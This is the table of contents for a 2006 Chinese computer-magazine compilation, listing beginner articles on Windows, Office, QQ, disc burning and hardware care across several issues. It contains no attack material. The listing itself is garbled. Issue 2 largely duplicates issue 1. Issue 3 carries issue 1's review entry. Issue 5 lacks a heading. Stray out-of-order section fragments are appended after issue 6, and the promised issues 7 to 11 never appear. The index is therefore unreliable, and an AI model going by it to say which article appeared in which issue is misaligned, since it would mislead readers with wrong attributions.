《电脑爱好者》（普及版）是《电脑爱好者》杂志的姊妹刊，2006年推出以来，受到广大读者的热烈欢迎。她以图文并茂的方式，深入浅出地讲解基本的电脑知识和经典的电脑操作技巧，内容实用易懂。《电脑爱好者合订本》将2006年1至11期的普及版做成PDF电子文件，放在配套的光盘B中，提供给广大读者阅读。

读者阅读时，建议选择经典的Adobe Reader，下载地址为http://www.skycn.com/soft/3076.html。当然也可以选择其他PDF阅读软件。这里刊登出1-11期普及版所有文章的目录，读者可以通过此目录选择自己喜欢的文章，然后到光盘中，打开文章所在的期数文件，在阅读软件中快速跳转到文章所在的页数，进行阅读即可。

## 第一期

### 新闻
- 5 重中之重
- 6 数字时代
- 7 警钟常鸣
- 8 新品曝光
- 9 硬件淘宝
- 10 软件前线

### 初学者乐园
- 11 用电脑的不良习惯（上）
- 13 大眼睛读图 Windows 2000桌面
- 14 快速寻找文件
- 14 想保密，用F2键改名
- 15 更方便的Windows XP系统还原功能
- 16 Shift、Ctrl和Alt键
- 16 让小键盘开机即用
- 17 Ctrl+Alt+Del让系统恢复响应
- 17 拖放的妙用
- 17 “运行”能做什么
- 18 用Print Screen Sys Rq键截图
- 18 用HyperSnap-DX截图
- 19 在游戏和电影中截图
- 19 用QQ截图
- 19 怎样完全退出ACDSee
- 20 添加你想要的输入法
- 20 用输入法生成器创建输入法
- 21 输入法的快捷切换
- 21 给输入法字库造词
- 21 输入不会读或拆的汉字
- 22 刻录数据光盘
- 23 刻录MP3光盘
- 24 刻录VCD影碟
- 24 复制光盘
- 25 五分钟自制日历
- 25 年终报表不用愁

### 软件学用通
- 27 让邮政编码前的0不再消失
- 27 “打印”命令变暗的解决之道
- 28 打印文档没反应该怎么办
- 29 打印机“贪污”文档中的图形
- 30 将Excel多个区域打印到同一页上
- 31 文档打印完为何总出空白页
- 31 打印Excel工作表背景有办法
- 32 按姓氏笔画排姓名
- 33 给Word文本加上些解释
- 34 请别修改我的幻灯片
- 34 让PowerPoint幻灯片飘出字幕
- 35 设置合理的安全恢复时间
- 36 同一Word文档纵横页面并存
- 37 FlashGet疯狂下载保护硬盘一法
- 37 硬盘和C盘、D盘等有什么区别
- 38 不能上网KV2006如何升级
- 38 敢向ACDSee叫板的FreshView
- 39 Windows XP下复制的CD为何没有声音
- 41 MP3播放器容量翻番
- 42 当输入法不翼而飞之后
- 43 启动Windows不再输入密码
- 44 让任务栏显示星期几
- 44 隐藏Windows桌面上的所有图标
- 45 缩短系统启动等待时间一法
- 46 缩短系统启动等待时间又一法
- 46 区分CD、VCD、DVD、CD-R、CD-RW、MP3盘片
- 47 条条大路通罗马——文件操作的五种常用方法
- 49 条条大路通罗马——文件操作的五种另类方法
- 50 常用的计算机语言
- 50 术语小吧
- 51 软件发布的五种方式
- 51 软件安装的四种方式
- 52 特色软件大观园

### 特别话题
- 54 内存不够 找虚拟内存
- 59 内存不足 添“足”九法

### 网络E生活
- 61 @在网上飞——用Outlook Express收发邮件
- 62 OE使用温馨提示
- 62 POP3、SMTP和IMAP
- 63 @在网上飞——用Foxmail收发邮件
- 64 Foxmail 6.0新功能体验
- 65 Foxmail垃圾邮件轻松过滤
- 66 我用百度搜索歌曲
- 67 保存Flash的简单方法
- 67 网上文字选不中也复制
- 68 保存网页有“快捕”
- 69 峰盘帮你告别U盘
- 70 在QQ中和朋友共享文件
- 70 上网高峰登录多QQ
- 70 让QQ在任务栏中消失
- 71 用用网络防火墙
- 71 QQ好友经常换名怎么办
- 73 将恶意连接挡在外
- 73 校园网也能上国际网

### 硬件步步高
- 74 电脑怕什么？！
- 75 CPU芯片一路走来
- 76 AWARD BIOS的常见信息
- 78 BIOS常见错误信息和解决方法
- 79 BIOS自检响铃含义
- 79 保养好你de喷墨打印机
- 80 解决USB鼠标无响应一法
- 80 菜鸟也能不上当

### 数码 & 休闲
- 81 音箱摆放有讲究
- 82 认识音频格式
- 82 认识视频格式
- 82 自己编辑MP3歌曲信息
- 83 边听歌曲边显示歌词
- 84 打造家庭影像中心

### 傻博士信箱
- 87 解决软驱经常性读写错误
- 87 HP打印机不能连续打印表格
- 87 低级格式化与高级格式化的区别
- 87 为何关机后键盘灯还亮着
- 87 CD音频线插反了有害吗
- 87 键盘上几个特殊键有何用途
- 88 什么是HDTV
- 88 HDTV节目有哪些显示标准
- 88 哪些HDTV文件可以在电脑上播放
- 88 怎样在个人电脑上播放HDTV节目
- 88 DVD刻录盘片该选哪一种
- 89 重装系统无法进行下去
- 89 定制自己的个性图标桌面
- 89 巧删系统菜单中的乱码
- 89 取消启动Windows 98时的登录框
- 89 录音机录制网上音乐的设置问题
- 89 系统经常检查软驱的问题
- 90 产生的CHK文件该如何处理
- 90 在双系统中重装Windows 98两法
- 90 开机片刻就内存不足是什么原因
- 90 磁盘整理过程为何老是重头再来
- 91 软件直接拷贝后不一定能使用
- 91 怎样把文档转换成PDF文件
- 91 去掉Word文档页眉的横线
- 91 重装Office会覆盖先前的设置吗
- 91 微软拼音输入法输入句长的把握
- 92 用RealProducer Plus将VCD转换为RM
- 92 使用微软拼音注意“零声母”
- 92 在Excel中快速输入大写中文数字
- 92 Word微调对象的位置
- 93 解决QQ使用中的两个问题
- 93 实现用QQ传输文件时的断点续传
- 93 如何获知自己的IP地址
- 93 装上Personal Web Server学用ASP做网页
- 94 Windows 98为何不能访问Windows 2000
- 94 实现Windows 98与Windows 2000的连接
- 94 搜索BT或电骡资源一条道

### 读编聊天室
- 95 雨丝小轩
- 96 寄来收据变会员
- 96 《电脑爱好者》(普及版)2006年01月号评刊
- 96 重要声明## 第二期

### 新闻

- 5 重中之重
- 6 数字时代
- 7 警钟常鸣
- 8 新品曝光
- 9 硬件淘金
- 10 软件前线

### 初学者乐园

- 11 用电脑的不良习惯（上）
- 13 大眼睛读图 Windows 2000桌面
- 14 快速寻找文件
- 14 想保密，用F2键改名
- 15 更方便的 Windows XP 系统还原功能
- 16 Shift、Ctrl和Alt键
- 16 让小键盘开机即用
- 17 Ctrl+Alt+Del 让系统恢复响应
- 17 拖放的妙用
- 17 “运行”能做什么
- 18 用Print Screen Sys Rq键截图
- 18 用HyperSnap-DX截图
- 19 在游戏和电影中截图
- 19 用QQ截图
- 19 怎样完全退出ACDSee
- 20 添加你想要的输入法
- 20 用输入法生成器创建输入法
- 21 输入法的快捷切换
- 21 给输入法字库造词
- 21 输入不会读或拆的汉字
- 22 刻录数据光盘
- 23 刻录MP3光盘
- 24 刻录VCD影碟
- 24 复制光盘

### 软件学用通

- 27 让邮政编码前的0不再消失
- 27 “打印”命令变暗的解决之道
- 28 打印文档没反应应该怎么办
- 29 打印机“贪污”文档中的图形
- 30 将Excel多个区域打印到同一页上
- 31 文档打印完为何总出空白页
- 31 打印Excel工作表背景有办法
- 32 按姓氏笔画排姓名
- 33 给Word文本加上些解释
- 34 请别修改我的幻灯片
- 34 让PowerPoint幻灯片飘出字幕
- 35 设置合理的安全恢复时间
- 36 同一Word文档纵横页面并存
- 37 FlashGet疯狂下载保护硬盘一法
- 37 硬盘和C盘、D盘等有什么区别
- 38 不能上网KV2006如何升级
- 38 敢向ACDSee叫板的FreshView
- 39 Windows XP下复制的CD为何没有声音
- 41 MP3播放器容量翻番
- 42 当输入法不翼而飞之后
- 43 启动Windows不再输入密码
- 44 让任务栏显示星期几
- 44 隐藏Windows桌面上的所有图标
- 45 缩短系统启动等待时间一法
- 46 缩短系统启动等待时间又一法
- 46 区分CD、VCD、DVD、CD-R、CD-RW、MP3盘片
- 47 条条大路通罗马——文件操作的五种常用方法
- 49 条条大路通罗马——文件操作的五种另类方法

### 特别话题

- 54 内存不够 找虚拟内存
- 59 内存不足 添“足”九法

## 网络 E 生活

- 61 @在网上飞——用Outlook Express收发邮件
- 62 OE使用温馨提示
- 62 POP3、SMTP和IMAP
- 63 @在网上飞——用Foxmail收发邮件
- 64 Foxmail 6.0新功能体验
- 65 Foxmail垃圾邮件轻松过滤
- 66 我用百度搜索歌曲
- 67 保存Flash的简单方法
- 67 网上文字选不中也复制
- 68 保存网页有“快捕”
- 69 磁盘帮你告别U盘
- 70 在QQ中和朋友共享文件
- 70 上网高峰登录多QQ
- 70 让QQ在任务栏中消失
- 71 用用网络防火墙
- 71 QQ好友经常换名怎么办
- 73 将恶意连接挡在外
- 73 校园网也能上国际网

### 硬件步步高

- 74 电脑怕什么？！
- 75 CPU芯片一路走来
- 76 AWARD BIOS的常见信息
- 78 BIOS常见错误信息和解决方法
- 79 BIOS自检响铃含义
- 79 保养好你de喷墨打印机
- 80 解决USB鼠标无响应一法
- 80 菜鸟也能不上当
- 81 音箱摆放有讲究

### 数码 & 休闲

- 82 认识音频格式
- 82 认识视频格式
- 82 自己编辑MP3歌曲信息
- 83 边听歌曲边显示歌词
- 84 打造家庭影像中心

### 傻博士信箱

- 87 解决软驱经常性读写错误
- 87 HP打印机不能连续打印表格
- 87 低级格式化与高级格式化的区别
- 87 为何关机后键盘灯还亮着
- 87 CD音频线插反了有害吗
- 87 键盘上几个特殊键有何用途
- 88 什么是HDTV
- 88 HDTV节目有哪些显示标准
- 88 哪些HDTV文件可以在电脑上播放
- 88 怎样在个人电脑上播放HDTV节目
- 88 DVD刻录盘片该选哪一种
- 89 重装系统无法进行下去
- 89 定制自己的个性图标桌面
- 89 巧删系统菜单中的乱码
- 89 取消启动Windows 98时的登录框
- 89 录音机录制网上音乐的设置问题
- 89 系统经常检查软驱的问题
- 90 产生的CHK文件该如何处理
- 90 在双系统中重装Windows 98两法
- 90 开机片刻就内存不足是什么原因
- 90 磁盘整理过程为何老是重头再来
- 91 软件直接拷贝后不一定能使用
- 91 怎样把文档转换成PDF文件
- 91 去掉Word文档页眉的横线
- 91 重装Office会覆盖先前的设置吗
- 91 微软拼音输入法输入句长的把握

## 第三期

### 新闻

- 5 重中之重
- 6 数字时代
- 7 警钟常鸣
- 8 新品曝光
- 9 硬件淘金
- 10 软件前线

### 初学者乐园

- 11 和党党一起入门Photoshop——熟悉常用工具
- 12 玩转控制面板系列篇之——电源选项
- 13 用ACDSee看图片
- 14 形形色色的软件版本
- 15 认识文件及文件夹
- 15 让扩展名现身
- 16 通过各种方式“查看”文件
- 17 纯正英语带你漫游XP
- 17 XP也能制作MP3
- 18 XP也能刻录光盘
- 18 让照片变屏保
- 19 如何整理磁盘碎片
- 20 定期自动进行磁盘清理
- 20 如何清理磁盘临时文件
- 21 检查修复磁盘错误
- 21 不让双语电影同时发音
- 21 省纸和转纸型打印
- 22 数码照片自己打
- 23 将电子便笺贴在桌面上
- 24 给你的照片加相框
- 25 批量删除数据多余部分
- 25 批量巧加小数点

### 软件学用通

- 26 让图表跟着文字走
- 26 给Excel单元格加个注释
- 27 在Word中转换字母大小写
- 28 让Word工具栏和格式栏分家
- 28 给Word添加工具按钮
- 29 Word工具图标或菜单图标的复制与删除
- 30 妙用Word读文稿
- 31 用Flash控件解决PPT播放时间控制问题
- 32 画图与Print Screen联合截图
- 33 轻松获取Word文档中的图片
- 33 照片反白输出如此简单
- 34 让字体颜色不再深浅不一
- 34 在WPS文档中实现超级链接
- 35 调整WPS表格末行末列尺寸的两种方法
- 36 Office助手下任下岗记
- 37 大家一起千千静听
- 38 让你的歌词同步显示LRC歌词
- 39 Word快速操作技巧八例

### 读编聊天室

- 95 雨丝小轩
- 96 寄来收据变会员
- 96 《电脑爱好者》(普及版)2006年01月号评刊
- 96 重要声明

### 普版目录

《电脑爱好者》合订本·附录分册

- 40 找回 Windows XP 光盘自动运行功能
- 41 重装系统分析与装前准备
- 42 重装系统选择哪种方式
- 42 重装系统的几个高级技巧
- 42 找回Windows 98丢失的光盘自动运行功能
- 44 让“发送到”为你贴心服务
- 45 “发送到”的分层次使用技法
- 46 安全模式及其启动方法
- 47 安全模式的各色面孔
- 47 Windows XP“安全模式”的六项用途
- 48 三招两式打造固若金汤的Windows XP系统
- 49 文件查看方式的应用
- 50 Windows XP下如何玩老游戏
- 51 怎样提高电脑运行速度
- 52 解决开机时出现的 BOOT.INI 错误问题
- 52 WinXP下安装软件显示路径错误问题解决

## 特别 D 话题

- 53 电脑改变了我的生活
- 54 在我学电脑的日子里
- 56 学电脑需活学活用
- 57 我的数码桂林游
- 60 菜鸟的尴尬

## 网络 E 生活

- 61 宽带拨号连接怎么建
- 62 没有网卡照样组网
- 62 把常用网址设成主页
- 63 Google 界面英文变中文
- 63 让浏览器自动滚屏
- 64 词霸豆豆翻译真方便
- 64 在线翻译信手拈来
- 65 异地也可手把手教电脑
- 66 用 QQ 实现远程协助
- 67 QQ 网络直播真精彩
- 67 QQ 帮你收藏网址
- 68 从此告别垃圾邮件
- 70 我也会用 BT 下载了
- 71 在 Frontpage 中制作向上滚动字幕
- 71 闪光炫目的 Flash
- 71 只复制文字而去掉网页格式
- 72 网上文字复制有他招
- 72 巧复制防拷贝网页内容
- 73 做一回网络彩民
- 73 网上支付经验谈

### 硬件步步高

- 74 就是要给你好看 ——让显示器不再陌生
- 74 我该选购什么样的显示器？
- 75 通俗易懂学术语之 CRT 显示器
- 76 通俗易懂学术语之 LCD 显示器
- 77 与显示器亲密接触
- 78 显示器的日常维护
- 79 显示器的简单应用
- 80 奸商，我不会再上你的当——奸商骗术揭秘
- 81 “穷人”也玩 4 声道音效

### 数码 & 休闲

- 82 动听的旋律无处不在——音乐手机选购与应用技巧
- 84 如何修复未完全下载的视频文件
- 85 用软件提升 MP3 随身听音质
- 86 没有数据线图片铃声也能传到手机上

### 傻博士信箱

- 87 显示器发出刺耳响声
- 87 屏幕设置开机后就变
- 87 显示器颜色有时失真
- 87 播放 HDTV 节目时丢帧
- 87 换主板后内存容量变小
- 87 刚开机显示比较模糊
- 87 开机自检提示设备错误
- 87 开机显示硬盘控制错误
- 88 打印表格丢失速度慢
- 88 开机自检为何多次进行
- 88 刻录的音乐 CD 不能播放
- 88 刻录机为何总是刻坏盘
- 88 刻录机刻到 98% 就没反应
- 88 驱动使用不当引起蓝屏
- 89 开机为何显示关机提示
- 89 加快系统重新启动速度
- 89 启动出现 Msnsp32.dll错误
- 89 Win2000 下老游戏的显示问题
- 89 Win2000 注册表最大值太小
- 89 Hiberfil.sys文件有什么用
- 89 安装提示 Inss576_mp.exe出错
- 89 Windows 2000 下给 CPU 降温
- 90 DOS 下安装 Windows XP 为何很慢
- 90 安装 WinXP 必须转换分区为 NTFS 吗
- 90 为何我的 MODEM 不能在 XP 下工作
- 90 关机操作为何变成重启的响应
- 90 Windows XP 下的 IE 运行很慢
- 90 Windows XP 安装简体中文语言包
- 90 XP 系统还原功能启动不了
- 90 PartitionMagic转换分区问题
- 91 如何给文章配上图片
- 91 汉字偏旁部首的输入问题
- 91 安装系统复制文件时出错
- 91 设置系统默认的看图程序
- 91 Word 文字格式无法设置
- 92 电脑中的 Word 文档都打不开了
- 92 文本文件为何总用 Word 打开
- 92 为什么要使用千千静听
- 92 千千静听歌词显示问题
- 92 千千静听歌词重新下载问题
- 92 暴风影音和千千静听各有所长
- 92 Word 排版中的空白页
- 92 Word 文档页码打印出错
- 93 电骡的下载设置需要注意
- 93 我的“电骡”突然不见了
- 93 哪儿能下载免费正版杀毒软件
- 93 在桌面上查看内部网的资源
- 93 新浪 U C 号及其作用
- 94 用 U C 号能否登录新浪邮箱
- 94 局域网如何访问另一个局域网
- 94 什么是 BT 和 BT 种子
- 94 如何下载网站的 mms 视听节目

### 读编聊天室

- 95 雨丝小轩
- 96 寄来收据变会员
- 96 《电脑爱好者》（普及版）2006年03月号评刊

## 第四期

### 新闻

- 5 重中之重
- 6 数字时代
- 7 警钟常鸣
- 8 新品曝光
- 9 硬件淘宝
- 10 软件前线

### 初学者乐园

- 11 和党党一起入门 Photoshop——人物美容塑身魔法
- 12 学用 WPS Office
- 13 玩转控制面板系列篇之——Internet 选项
- 14 如何安装操作系统
- 15 让多操作系统并存
- 16 什么是虚拟光驱
- 16 将虚拟光驱搬进你的电脑
- 17 用好你的虚拟光驱
- 18 键盘字母排列之谜
- 19 学打字的第一步
- 19 Word 功能键随手可用
- 19 键盘也能弹出快捷菜单
- 20 屏幕键盘和鼠标键
- 20 当启用鼠标键时
- 21 让电脑定时开机
- 21 让电脑定时关机
- 22 让“发送到”快递员更称职
- 22 打个自解压的包给对方
- 23 给你的电脑请个小秘书
- 23 给你的桌面图标换新装
- 24 把拥挤的任务栏变简洁
- 24 迅速搜索被遗忘的文件
- 24 生日星期几早知道
- 25 让移动盘随时更新
- 25 图片传真查看器也能抓着图片移动
- 26 自己来做幻灯片

### 软件学用通

- 27 学之篇：初识文件和文件夹
- 28 用之篇：文件和文件夹的基本操作
- 32 通之篇：文件和文件夹的高级应用
- 34 Word 备份文件功能为你留一手
- 34 取消不需要的自动编号功能
- 34 自由设定 Word 启动后的默认文件夹
- 35 写完文章后留下自己的落款
- 35 Word 也能自动填充表格中序列号
- 35 为文档预览加入翻页功能

### 专题奉献

- 36 相同的目标 不同的实现——主流下载方法与工具面面观
- 42 Word 2003查找替换高级技巧
- 42 防止 Excel 文件修改错误的备份策略
- 43 自主改造 Word 默认空白页
- 43 解开 Word 中快捷键失效之谜
- 44 打造一个与众不同的 Windows 新装
- 45 给光驱吃颗延寿丸——虚拟光驱
- 46 给你的爱机安个小密探
- 47 图片批处理用 Picture Manager
- 48 工具助你修复未下载完的视频文件
- 48 超级傻瓜的“大头贴”自制软件——BabyFace2.0
- 49 用好你的回收站
- 50 Windows XP用户权限的妙用
- 51 全民参与中指点右键运动
- 52 改系统注册信息 为操作系统过户

## 网络 E 生活

- 53 愚人节友好玩人招数 TOP5
- 54 网上下截你会了吗
- 55 请来 FlashGet 好下载
- 55 启动 FlashGet 的几种方式
- 56 用 FlashGet 完成下载任务
- 56 让下载文件分类存放
- 57 体验下载新秀迅雷 5
- 58 让 Skype 带着你全球通话
- 60 如何防止 QQ 号被盗
- 61 六招防止 QQ 号被盗
- 61 QQ 聊天防病毒
- 62 聊天时接收文件要警惕
- 63 TM 帮你快找 QQ 好友
- 63 让暂时不用的 QQ 群不说话
- 63 QQ 群中屏蔽贴图改昵称
- 64 用 Outlook 实现邮件到达提醒
- 64 用 Foxmail 实现邮件到达提醒
- 65 百度一下全知道
- 65 用百度搜索电影
- 66 在线听音乐
- 66 流行新歌边听边学唱
- 66 追寻新歌找迅雷听听
- 67 为 IE 浏览器减“负”
- 67 Flash 可以这样播放
- 68 做个能识骗局的网络买家

### 硬件步步高

- 69 我就是电脑的“脊梁骨”——与主板的全面接触
- 69 什么是主板？
- 70 通俗易懂学术语系列之主板
- 72 主板选购的要点
- 73 小东西有大学问——摄像头选购的十个关键字
- 75 千万别得皮肤病！——你的机箱合格吗？
- 76 别拿豆包不当干粮——电脑与电源接线板
- 77 除了降温，还得保暖——小心冬季电脑的“伤风感冒”
- 78 不让我的“眼泪”陪你过夜——键盘进水应急处理方法
- 79 安全插拔移动存储设备
- 80 小小数据线惹麻烦
- 80 显示器花屏竟是内存惹的祸

### 数码 & 休闲

- 81 玩转数码相机之走出像素的误区
- 82 别被我的名字吓到——带你认识“数码单反相机”
- 84 DV 爱好者的入门装备——低端 DV 选购指南
- 85 如何选购数码伴侣
- 86 随身设备也美容——巧用 PSP 贴膜
- 87 不得不说的故事——MP3 与 MP4 的真实关系
- 88 快乐游戏系列介绍
- 89 让你的手机变相支持 MP3 铃声

### 傻博士信箱

- 90 启动电脑后光鸣音没图像
- 90 显示器出现了色斑
- 90 系统从休眠中被唤醒后显示器黑屏或花屏
- 90 主板上的 IDE 接口不能用
- 90 打印机有时候不进纸
- 90 接口无法识别数码相机
- 91 安装了软件导致 Windows XP 无法启动
- 91 盘符错乱
- 91 关于系统的任务栏假死现象
- 91 Window xp 中无法安装 VB6
- 91 Window 2003 标题栏字体自动变小
- 92 运行 Photoshop 出现“非法操作”提示
- 92 图片文件不能被 ACDSee 打开了
- 92 ACDSee 不能浏览 RAW 文件
- 92 恢复受损 Word 文件中的文字
- 92 MSN 和 GoogleTalk 软件不能登录
- 93 词霸取词后系统崩溃
- 93 词霸在取词后出现桌面闪烁的现象
- 93 关闭 Winamp 时出现内存错误
- 93 WinRAR 的密码忘记了
- 93 不装 PowerPoint 如何播放幻灯片
- 93 RealOne Player 播放停顿的问题
- 93 新版 QQ 无法登录
- 94 ADSL 经常掉线
- 94 互联网上的汉字名称链接打不开
- 94 只能登录聊天软件不能上网
- 94 发送错误报告
- 94 Outlook Express 邮件附件无法打开

### 读编聊天室

- 95 雨丝小轩
- 96 寄来收据变会员
- 96 《电脑高手》2006 年 04 月号评刊

### 新闻

- 5 重中之重

### 数字时代

- 6 数字时代
- 7 警钟常鸣
- 8 新品曝光
- 9 硬件淘宝
- 10 软件前线

### 初学者乐园

- 11 和党党一起入门 Photoshop——换衣服魔法
- 12 窗口操作的 13 种方法
- 13 玩转控制面板系列篇之——显示设置
- 14 电脑模型是这样发展的
- 15 删除程序随我来
- 16 你的文件管理好了吗
- 16 你的软件管理好了吗
- 17 “运行”还能做什么
- 17 硬盘如何分区更合理
- 18 系统是真慢还是太忙
- 18 提高效率从文件夹分类开始
- 19 系统慢了求助新账户
- 19 我的文档应该这样用
- 19 重要文件放在哪
- 20 让“兔子”清理你的系统
- 20 按组排列让文件井然有序
- 21 备份还原注册表不用怕
- 23 层层设防之开机密码
- 23 层层设防之登录密码
- 23 层层设防之屏幕保护密码
- 24 Word 2003 文档你也别修改
- 24 也给 Word 2000 文档加把锁
- 24 自设屏幕保护程序
- 25 为你的操作设置个性音乐
- 25 把开关机音乐换成你所爱

### 软件学用通

- 26 学之篇：病毒与病毒查杀软件
- 30 快速将图片组织为相册
- 30 快速打印相片图册
- 30 快速移动文件或文件夹
- 30 通过各种参数搜索图片
- 30 拿“这是什么”来试问
- 30 创建独特的幻灯片演示
- 31 按设定条件显示图片
- 31 浏览整张 CD 图像缩略图
- 31 连接数码相机拍照
- 31 添加照片首尾文字图注
- 31 用查看器查看图像序列
- 31 媒体窗口的妙用
- 32 IE 无法监视对下载链接的点击
- 32 工具栏和下载信息界面设置
- 32 下载的程序无法打开的原因
- 32 FlashGet IE 工具条使下载更直观
- 32 一个接一个地下载文件
- 33 快速而便于管理的下载工具
- 33 下载优先等级的排定方法
- 33 下载完成后自动关机
- 33 一次性下载页面连接的所有图片
- 33 下载到 100% 为何还正在下载
- 33 下载速度限制的实际意义
- 34 选择双拼键盘方案
- 34 输入标点及符号
- 34 输入数字和日期
- 34 系统文件整体备份
- 35 拼音加加的词库管理
- 35 输入不会读音的字
- 35 开关双拼键盘提示
- 35 设置简拼方式输入双声母
- 36 解决发音不准者的输入难题
- 36 删除自动记忆词组的方法
- 36 使用 GBK 汉字库输入不常用汉字
- 36 直接输入英文字符串
- 36 股票名称和代码的输入
- 37 注册表与注册表编辑器
- 37 注册表编辑器的启动
- 37 注册表的项（根键）和值项
- 38 停止“磁盘空间不足”通知
- 38 自动登录 Windows XP
- 38 禁止“开始”菜单显示用户名
- 38 让 IE6 可以同时下载 10 个文件
- 39 特色软件大观园之精品中文软件
- 41 Word 文档加背景或水印两法
- 42 Word 文件变为稿纸形式
- 43 Word 默认页面规格设置个性化
- 43 “边框和底纹”美化 Word 页面
- 44 WPS 文档中图像存储的两种方式
- 44 给 Word 文档添加动态文字
- 45 打造个性化 Word 按钮图标样式
- 46 红头文件模板中的红头能不打印吗
- 46 Word 版面分栏的两种方法
- 47 拼音加加单字频度调整
- 47 快速输入拼音加加专用词条
- 47 让 Acrobat Reader 记住上次浏览的地方
- 48 用 Nero 以映像文件方式复制 CD
- 49 给资源管理器安装文件传输按钮
- 49 显示问题的软件调整办法
- 50 取消 Windows XP 的启动画面
- 51 简单易行的 CD 自动播放设置法
- 51 让 Windows XP 自动休眠
- 52 文件操作我只愿点击按钮
- 52 资源管理器列表项目个性化定制

## 网络 E 生活

- 53 送给母亲的礼物——健康
- 54 送给母亲的礼物——回忆
- 55 搜索引擎——网络百晓生
- 57 音乐快捕，好歌跑不了
- 58 好东西用电骡去下载
- 59 下载完毕自动检查病毒
- 60 下载文件的常见格式
- 60 下载后自动播放影音文件
- 61 QQ 不仅仅能聊天
- 61 磁盘空间的单位
- 61 QQ 邮箱你用过吗
- 62 玩转 QQ 的自定义表情
- 63 QQ 免费魔法表情你会用吗
- 63 让 QQ 好友看见隐身的你
- 64 你也能做 QQ 动画表情
- 64 另类方法帮助登录 MSN
- 65 我的 Q 宠我的宝贝
- 66 和恶意添加好友说再见
- 66 用快捷键发 QQ 消息
- 66 QQ 聊天你用快捷键吗
- 66 Foxmail 多个邮箱一键全收
- 67 Foxmail 地址簿共享不用愁
- 67 Foxmail 群发邮件真方便
- 67 改变默认的邮件程序
- 67 给邮件打个阅读收条
- 68 误删邮件找回来
- 68 Foxmail 收邮件也能全自动
- 68 给 Foxmail 添加工具按钮
- 68 我的邮箱你别看
- 68 给邮件做个方便小名片
- 68 让别人一眼认出你的邮件

### 硬件步步高

- 69 nVIDIA & ATI 两大阵营显卡的区别与选购
- 70 一根内存引发的“血案”
- 71 品牌机是否性价比不如组装机？
- 72 品牌机和组装机谁更有优势
- 72 选择品牌机还是组装机
- 73 双启动型闪存启动盘的制作
- 74 Windows 98 无驱功能闪存启动盘的制作
- 74 如何转换加密型闪存盘
- 75 怎样识别 USB 设备动力不足
- 75 排除 USB 设备动力不足故障

## 第六期

### 新闻
- 5 特别关注
- 6 数字时代
- 7 新品曝光
- 8 硬件淘宝
- 9 软件前线

### 初学者乐园
- 10 家有初学老爸 基础篇——认识电脑从“开始”开始
- 12 和党党一起入门 Photoshop——生活照变明星照
- 13 IE 浏览器图图通（上）
- 14 玩转控制面板系列篇之——安全中心
- 15 安装大型软件不用怕
- 16 电脑术语繁简对照

### 数码 & 休闲
- 82 多拍“精”选是关键
- 82 不动如山的基本功
- 83 后期处理至关重要
- 83 玩转数码相机之认识白平衡
- 84 玩转数码相机之正确使用 ISO 感光度
- 85 普通低价笔记本电脑选购
- 85 低价二手笔记本电脑选购
- 86 沟通无处不在——如何利用手机无线上网
- 87 揪出“缩水”的待机时间
- 88 MP3 故障解决方案系列
- 89 手机小技巧系列

### 傻博士信箱
- 90 插上网线就进不了系统
- 90 移动硬盘连接到电脑上不工作
- 90 广角镜头拍出照片的四角发黑
- 90 新换的打印机无法打印
- 91 系统中光驱和硬盘盘符位置颠倒了
- 91 进入“网上邻居”非常慢
- 91 光盘在 Windows XP 中不运行
- 91 任务管理器丢失了
- 91 进入系统后总是弹出奇怪的窗口
- 92 DVDRip 播放影片时画面总停顿
- 92 升级到 ACDSee 6.0 后无法浏览图片
- 92 FlashGet 下载前停顿很长时间
- 92 如何抓取网页上的动画
- 93 AutoCAD 2005 不能使用多行工具
- 93 AVI 格式的视频文件无法播放
- 93 去除 Excel 表格中的大量空格
- 93 Word 文件中的文字无法显示
- 93 登录 MSN 时非常困难
- 94 系统中存在恶意程序
- 94 在 IE 中不能打开新窗口
- 94 不重启电脑使用外置 Modem
- 94 如何消除 QQ 尾巴病毒
- 94 QQ 无法添加好友

### 读编聊天室
- 95 雨丝小轩
- 96 寄来收据变会员
- 96 《电脑爱好者》(普及版)2006年05期评刊表

- 76 扫描文稿须知
- 76 扫描仪的保养
- 77 五招优化你的打印机
- 77 打印省墨经验谈
- 78 知己知彼，百战不殆——消费者，你知道硬件保修政策吗？
- 79 硬盘分区一点就通
- 80 硬盘保养技巧之自己动手要不得
- 81 硬盘保养技巧之宁停三分，不抢一秒
- 81 硬盘保养技巧之良好的“作息时间”
- 81 硬盘保养技巧之整理碎片强身健体
- 16 让开始菜单有条有理
- 17 让屏幕文字更大更清楚
- 17 用啥程序打开文件自己定
- 18 文件命名也可用特殊字符
- 18 怎样查看文件的扩展名
- 18 给文件统一改名
- 18 文件无法保存时改属性
- 19 智能狂拼让你打字提速
- 19 隐藏你的文件和文件夹
- 19 快速访问隐藏的文件夹
- 20 你也可以一键运行程序
- 20 关机重启注销一秒搞定
- 20 鼠标指针随意换
- 20 记事本也有其他字体
- 21 菜鸟也能玩转系统恢复
- 21 不让他人看到你的阅读记录
- 22 我的电脑也能变成工具栏
- 23 冷僻字怎么打出来
- 23 相同错误一次性更正
- 24 谢绝 Word 的友好帮助
- 24 没有翻译软件也翻译
- 24 让 Word 翻译试试看
- 24 快速统计文章字数
- 25 安全模式你会用了吗
- 25 没有 Word 也能打开你的文档
- 软件学用通
- 26 用之篇：杀毒软件的基本用法
- 30 给工作表标签一点颜色看看
- 30 查找替换不光只在单一的表格中
- 30 让复制来的表格的列宽不变
- 30 Excel 2002 中体贴人的函数小秘书
- 30 善用快捷菜单 提高操作效率
- 30 “任务窗格”是你工作的好向导
- 31 Excel 2002 中眼皮底下的好老师
- 31 如何应对丢失的或多出的工具栏
- 31 添加或删除工具栏按钮更轻松
- 31 让格式栏再多出一些格式来
- 31 学习 Excel 的最好参考书
- 31 一个工作表有多少行和列
- 32 修复金山文字系统错误
- 32 让辅助信息助你一臂之力
- 32 接管 Word 文档的编辑权限
- 32 历史文件方便你今后的操作
- 32 设置文档作者的固定信息
- 33 备份文件给你吃后悔药的机会
- 33 定时存盘将损失降到最低
- 33 用最合适的方式查看页面
- 33 自己约定吃后悔药次数
- 33 灵活设置文字排版的项目
- 34 功能强大的压缩工具 WinRAR
- 34 善用高级选项 灵活定制解压
- 34 折叠 WinRAR 的右键菜单命令
- 34 拖动文件到压缩包添加内容
- 34 便于使用拖动压缩的窗口设置
- 35 两种启动 WinRAR 的方法
- 35 降低优先级保证其他程序运行
- 35 右键拖动压缩包直接解压
- 35 不让别人知道我压过什么资料
- 35 功能更加强大的 WinRAR 控制台
- 36 画八类标准方向线技法
- 36 借助鼠标右键绘制反色椭圆
- 36 从扫描仪或数码相机中获取图像
- 36 使用背景色作画的技巧
- 36 防止填充颜色溢出的措施
